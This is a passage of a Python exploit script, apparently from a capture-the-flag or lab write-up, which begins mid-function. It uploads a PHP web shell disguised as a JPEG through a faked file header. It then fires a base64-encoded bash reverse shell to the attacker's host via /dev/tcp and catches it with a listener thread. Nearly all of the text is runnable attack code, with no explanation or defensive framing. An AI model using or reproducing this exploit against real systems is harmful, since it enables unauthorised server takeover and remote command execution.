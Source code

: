 ```py
    hand = listen(lport).wait_for_connection()
    hand.interactive()
    
# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    print("[+] Let's upload the malicious php file !! [+]")
    url = "http://%s/upload.php" %rhost
    data = b'\xff\xd8\xff\xee\r\n\r\n<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'myFile': ('0x4rt3mis.php.jpeg', data, "image/jpeg"),
        'submit' : (None,"go")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

# Trigger the reverse shell
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    new_lhost = re.sub("\.", "_", lhost)
    url = "http://"+ rhost + ":80/uploads/" + new_lhost + ".php.gif?"
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lport = args.localport
    lhost = args.localip

    '''Here we call the functions'''
    # Set Up the Handler
    thr = Thread(target=Handler,args=(int(lport),))
    thr.start()
    # Upload it
    maliciousUpload(rhost)
    # Get the rev shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```
